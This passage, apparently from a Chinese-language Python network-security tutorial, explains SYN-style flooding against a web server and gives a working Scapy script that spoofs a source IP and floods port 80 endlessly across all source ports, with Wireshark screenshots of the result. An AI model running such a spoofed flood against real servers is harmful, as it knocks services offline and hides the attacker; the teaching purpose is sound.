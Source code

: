 单个 IP，单个端口

我使用了伪造的 IP 来隐藏我的身份。你需要发送大量数据包来检查 Web 服务器的行为。在攻击期间，尝试打开托管在 Web 服务器上的网站。无论是否成功，都要把你的发现写入报告。

让我们检查服务器端的输出：

![](img/70b97414-fd0f-446c-9b49-a4fe423bc6c6.png)

服务器上的 Wireshark 输出

这个输出显示我们的数据包成功发送到了服务器。用不同的序列号重复这个程序。

# 单个 IP，多个端口

现在，在这次攻击中，我们使用单个 IP 地址但是多个端口。

在这里，我写了`simp.py`程序的代码：

```py
from scapy.all import *

src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")

i=1
while True: 
  for srcport in range(1,65535): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    i=i+1
```

我在端口上使用了`for`循环。让我们检查攻击者的输出：

![](img/d28dba77-5745-43db-a692-8d72108dd2f2.png)

